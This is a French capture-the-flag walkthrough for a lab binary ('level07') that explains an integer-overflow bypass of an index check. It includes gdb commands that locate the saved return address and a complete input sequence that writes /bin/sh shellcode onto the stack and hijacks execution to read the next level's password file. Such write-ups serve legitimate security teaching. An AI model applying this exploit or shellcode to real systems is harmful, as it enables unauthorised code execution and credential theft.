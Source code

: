 Ce binaire etait plus difficile que les autres a exploiter.

Son fonctionnement est plutot simple : 
Il boucle a l'infini, en demandant une entree a l'utilisateur (a la maniere d'un shell). Il y a 3 commandes possibles : store, read et quit. 

store : Demande un index puis une valeur, puis stock la valeur a l'index indique.
read  : Demande un index puis lit la valeur a l'index indique.
quit  : ... :)

En desassemblant le binaire pour en savoir un peu plus, on peut noter plusieurs choses : 

Un test est effectue sur l'index que nous indiquons :` if (index % 3 == 0)` ...
Si ce test se revele etre vrai, alors un message d'erreur s'affiche nous indiquant que nous ne pouvons
pas stocker de nombre a cet index. Cela sera tres important pour la suite.

Nous voyons egalement que aucune verification n'est mise en place pour verifier la valeur que nous 
envoyons a store ou a read.
Ainsi, nous pouvons lire a des indexs ayant pour valeur une negative ou alors une valeur > 100 (le tableau de data faisant 100*4 bytes). ceci est egalement tres important pour la suite. 

Nous savons donc que nous pouvons ecrire ou nous voulons en memoire. Enfin presque, car le index % 3 nous complique la tache. Une maniere de le contourner est la suivant :

Lui passer une valeur >= au INT_MAX afin de recuperer uniquement la difference entre INT_MAX + x
Nous savons qu'en memoire notre valeur est multiplie par 4 car il s'agit d'un tableau de int (4 bytes).
Voici par exemple commnent ecrire a l'index 0 : 
`4294967295 / 4 = 1073741823 + 1 = 1073741824`. Avec cette valeur, nous pouvons ecrire a l'index 0 (data[0])
car `1073741824 % 3 == 1`. Le test est donc respecte. Nous allons utiliser cette methode pour ecrire 
aux endroits "interdits" en memoire. 

J'ai donc decide d'ecraser la sauvegarde EIP du main. Pour cela, il suffit de la leaker :

	$ gdb level07
	$ b*main+455
	$ r
	$ store
	$ i f

	eip = 0x80488ea in main; saved eip 0xf7e45513


Maintenant, nous allons dumper notre stack avec read_number jusqu'a obtention de la valeur "0x80488ea"
qui correspond a EIP du main. 

En faisant plusieurs essai avec des valeurs > 100, on se rend compte que la sauvegarde d'EIP se trouve
a l'index 114 :

	$ ./level07
	$ read
	$ 114
	
	Number at data[114] is 4158936339     <--- 0xf7e45513

Par chance, l'index 114 etait rapide a trouver. Cependant j'ai quand meme creer un script d'automatisation (voir Ressources/find_eip.sh)

Maintenant que nous avons tous ces elements, l'idee est de stocker l'adresse de notre shellcode a l'adresse
de data[0] puis d'ecraser sEIP avec l'adresse 0 de notre tableau data.
Le probleme, c'est que lors de l'execution du binaire, l'environement semble etre "efface". Le trick 
va donc etre de stocker notre shellcode (4 bytes par 4 bytes) dans les adresse de data[0] a data[5], puis, de sauter dessus en ecran sEIP par l'adresse de data[0], comme indique ci-dessus. 
Je rappel que nous ne pouvons pas ecrire a tous les index que nous souhaitons, nous allons donc parfois
devoir jouer avec l'overflow, comme indique au debut du walkthrough.

Il y a egalement un decalage memoire entre gdb et sans gdb. L'adresse de notre tableau data n'est donc pas la meme selon si on lance le binaire avec gdb ou non.
Pour la trouver, c'est assez simple. Dans gdb, il suffit de run le binaire puis de chercher, via des index negatifs, ou se trouve l'adresse du tableau.
En faisaint :

	$ gdb level07
	$ start
	$ read
	$ -9
	
On obtient : 0xffffd544 (en decimal). Il suffit donc de proceder pareil hors gdb pour obtenir l'adresse de notre tableau :

	0xffffd564 (4294956388)

J'ai choisi le shellcode suivant (23 bytes) : http://shell-storm.org/shellcode/files/shellcode-827.php

Et voici notre exploit : 

		store
		1750122545        # \x31\xc0\x50\x68
		1073741824        # data[0] (en utilisant la methode de l'overflow)
		store
		1752379183	  # \x2f\x2f\x73\x68
		1		  # data[1]
		store
		1768042344	  # \x68\x2f\x62\x69
		2		  # data[2]
		store
		1357089134        # \x6e\x89\xe3\x50
		1073741827	  # data[3] (en utilisant la methode de l'overflow)
		store
		2967570771	  # \x53\x89\xe1\xb0
		4		  # data[4]
		store
		8441099		  # \x0b\xcd\x80	
		5
		store
		4294956388	  # adresse de data[0] 
		1073741938        # data[114] (save eip)
		quit

`cat /home/users/level08/.pass`
